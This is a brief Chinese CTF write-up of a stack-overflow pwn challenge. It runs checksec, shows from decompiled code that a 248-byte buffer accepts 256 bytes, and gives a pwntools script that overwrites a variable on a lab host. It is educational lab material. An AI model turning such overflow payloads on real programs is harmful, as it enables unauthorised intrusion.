



# Pwn-栈溢出

## 题意
给你一个`pwn.bin`

## 题解
首先，checksec一下，发现它没有开canary，也就是说可以进行栈溢出
```bash
checksec ./pwn.bin
```


然后利用IDA反编译源码，发现v2是一个长度为248的char数组，但是输入的长度却是256，也就是说能够进行栈溢出来改变v3的值，最后需要判断v3是否等于20150972。


```python
from pwn import *
HOST = '172.17.0.15'
PORT = 18119

p=remote(HOST,PORT)
p.recvuntil("Enter your name:")
p.sendline('zjq')
p.recvuntil("Enter your comment:")
payload=b'\x00'*248 + p64(20150972)
p.send(payload)
p.interactive()
```
